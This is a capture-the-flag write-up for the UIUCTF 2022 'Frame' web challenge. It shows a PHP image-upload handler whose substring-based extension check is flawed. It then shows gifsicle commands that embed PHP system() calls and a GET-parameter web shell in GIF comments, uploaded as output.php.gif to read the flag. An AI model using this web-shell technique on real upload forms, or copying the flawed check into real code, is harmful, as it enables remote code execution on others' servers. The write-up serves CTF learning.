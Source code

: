 # UIUCTF 2022 (web)

## Frame

### [source](https://github.com/GiongfNef/ChallFile/blob/main/UIUCTF2022/frame/handout.tar)

![chall](<../.gitbook/assets/image (6).png>)

### Analysis

```
<?php
ini_set('display_errors', 1);
ini_set('display_startup_errors', 1);
error_reporting(E_ALL);
          if (isset($_POST["submit"])) {
            $allowed_extensions = array(".jpg", ".jpeg", ".png", ".gif");
            $filename = $_FILES["fileToUpload"]["name"];
            $tmpname = $_FILES["fileToUpload"]["tmp_name"];
            $target_file = "uploads/" . bin2hex(random_bytes(8)) . "-" .basename($filename);

            $has_extension = false;
            foreach ($allowed_extensions as $extension) {
              if (strpos(strtolower($filename), $extension) !== false) {
                $has_extension = true;
              }
            }
            
            if ($_FILES["fileToUpload"]["size"] < 2000000) {
              if (getimagesize($tmpname) && $has_extension) {
                if (move_uploaded_file($tmpname, $target_file)) {     
                  echo "<div id='frame'><img src='$target_file' alt='Your image failed to load :(' id='submission'></div>";
                } else {
                  echo "There was an error uploading your file. Please contact an admin.";
                }
              } else {
                echo "Your picture is not a picture and could not be framed.";
              }
            } else {
              echo "Your picture is too large for us to process.";
            }
          }
        ?>
```

* know that: $allowed\_extensions = array(".jpg", ".jpeg", ".png", ".gif"); -> we can use ".gif" extension file. Finding around and i got [<mark style="color:blue;">`this doc`</mark>](https://doddsecurity.com/94/remote-code-execution-in-the-avatars/)<mark style="color:blue;">``</mark>
* We can use `gifsicle`  to embedd PHP code that runs the Linux command into a malicious image named output.php.gif.

### Exploit

#### First way

* Firstly, we convert png file that we received from chall to gif file
* I have tried change file extension from png to gif but it doesn't work, of course.

![](<../.gitbook/assets/image (3) (3).png>)

* I convert by [online tool](https://cloudconvert.com/png-to-gif) and ... that works. After we that just use this command:

```
gifsicle < frame-1.gif --comment "<?php system('id'); ?>" > output.php.gif
```

* Upload the output gif to server:

![the path of our requesting](<../.gitbook/assets/image (9).png>)

Go to that path and get some interesting things:

![](<../.gitbook/assets/image (1) (2) (2).png>)

* It works, try other commands to rce :

```
gifsicle < frame-1.gif --comment "<?php system('ls /'); ?>" > output.php.gif
```

![Here yah gooooo](<../.gitbook/assets/image (4) (3).png>)

* Now just use rce command and got the flag:

```
gifsicle < frame-1.gif --comment "<?php system('cd / && cat flag'); ?>" > output.php.gif
```

![](<../.gitbook/assets/image (2) (1).png>)

flag in some confusing thing like this:

![](<../.gitbook/assets/image (1) (1) (2).png>)

#### Firstway but easier \~

```
gifsicle < frame-1.gif --comment '<?php echo system($_GET["command"]); ?>' > output.php.gif
```

Now we can rce ez by web shell

> /uploads/c654036b5974c786-output.php.gif?command=ls%20-a

![](<../.gitbook/assets/image (1) (1).png>)



Thanks for reading. Have a good day :heart: !
